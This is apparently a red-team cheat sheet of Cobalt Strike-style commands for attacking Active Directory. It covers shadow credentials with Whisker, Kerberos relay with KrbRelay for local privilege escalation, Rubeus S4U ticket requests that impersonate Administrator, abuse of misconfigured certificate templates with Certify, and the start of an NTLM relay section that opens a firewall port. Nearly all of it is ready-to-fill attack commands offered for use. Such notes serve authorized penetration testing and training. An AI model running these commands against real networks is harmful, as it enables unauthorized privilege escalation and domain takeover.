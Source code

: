 `execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:[machine]$`
`execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:[machine]$`
run command whisker provides
[[#S4U2Self]]

Cleanup
`execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:[machine]$ /deviceid:[deviceid]`
#### Kerberos Relay
local privilege escalation

Requirements:
- LDAP signing not enforced
- user has self rights (to configure RBCD or shadow creds)
- RBCD only: user owns existing computer or can create new computers
##### RBCD
computer: any computer you control or [[#Create Computer Object]]
objectsid: `powerpick Get-DomainComputer -Identity [computer] -Properties objectsid`
run on target,
port: `execute-assembly C:\Tools\KrbRelay\CheckPort\bin\Release\CheckPort.exe`
`execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/[dc] -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd [objectsid] -port [port]`
check with `powershell Get-ADComputer [target] -Properties PrincipalsAllowedToDelegateToAccount`

computer tgt: [[#Kerberos Tickets]] (dump TGT) or [[#Create Computer Object]] (last command)
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:[computer]$ /impersonateuser:Administrator /msdsspn:host/[target (netbios)] /ticket:[base64 (computer tgt)] /ptt`
`elevate svc-exe-krb local`
##### Shadow Credentials
port: `execute-assembly C:\Tools\KrbRelay\CheckPort\bin\Release\CheckPort.exe`
`execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/[dc] -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred -port [port]`
check with `execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:[target]$`

`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[target]$ /certificate:[base64 (previous command)] /password:[password (previous command)] /enctype:aes256 /nowrap`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:host/[target (netbios)] /user:[target]$ /ticket:[base64 (previous command)] /ptt`
`elevate svc-exe-krb local`
## Active Directory Certificate Services
`execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas`
`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe certificates`
#### Misconfigured Certificate Templates
`execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable`

`execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:[CA Name] /template:[Template Name] /altname:[any user]`
copy certificate (both private key and certificate) to cert.pem
`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
`cat cert.pfx | base64 -w 0`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /certificate:[base64] /password:[password] /enctype:aes256 /opsec /nowrap`
[[#Pass-the-Ticket]]
#### NTLM Relaying to HTTP Endpoints
`powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445`
